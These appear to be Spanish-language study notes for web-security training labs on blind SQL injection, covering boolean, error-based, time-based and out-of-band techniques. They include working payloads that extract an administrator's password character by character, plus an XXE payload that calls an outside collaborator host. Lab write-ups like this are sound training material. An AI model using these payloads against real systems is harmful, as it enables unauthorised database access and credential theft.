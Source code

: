 ### Lab - BLIND SQLi con respuestas condicionales
La respuesta no mostrará nada pero sí un mensaje de "Welcome Back"
El enunciado  dice que la password será alfanumérica con caracteres en minúscula
![[Pasted image 20240402113026.png]]
![[Pasted image 20240402113017.png]]
La password contiene una 'a'
![[Pasted image 20240402115426.png]]
Sabemos que la password tiene 19 caracteres:
![[Pasted image 20240402115657.png]]
Mandamos esta consulta al intruder, significa que extrae el primer carácter de la columna password mientras que sea 'a', como el primer caracter no es 'a' no saldrá Welcome Back, por eso lo enviaremos al intruder apuntando la contraseña 19 veces
![[Pasted image 20240402121249.png]]

### Lab - Blind SQLi con errores condicionales
Atentaremos con sqli en el parámetro de trackID

- Si ponemos esta consulta y no devuelve ningún error, significa que existe la tabla:
`||(SELECT+''+FROM+users+WHERE+ROWNUM=1)||'
- Con la siguiente si nos da un error verificamos que el usuario existe:
`||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
- Con esto determinamos que hay 2 caracteres, nos da error cuándo la consulta es correcta:
`||(SELECT CASE WHEN LENGTH(password)>19 THEN to_char(1/0) ELSE '' END FROM users WHERE 
- Mandamos esta petición al intruder, averiguando letra por letra, nos fijaremos en el error `500
`||(SELECT CASE WHEN SUBSTR(password,1,1)='§k§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

### Blind SQLi con retraso de tiempo y recuperación de info
Esta vuln no muesta error, ni respuesta por pantalla
- Si ponemos una condición verdadera la página tardará 10 minutos en recargar por el sleep
``%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
- Averiguamos si posee el usuario administrator
`%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
- Averiguamos los caracteres que tiene
`%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>19)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
- Lo mandamos al intruder y variando el primer `1` del SUBSTRING  password del 1 al 20
`%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(1)+ELSE+pg_sleep(0)+END+FROM+users--

### Lab - Blind SQLi con interacción fuera de banda (OAST)

Necesitaremos a BurpCollaborator, ponemos el payload y seguidamente vamos a la Pestaña --> Collaborator --> Poll Now

`+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`
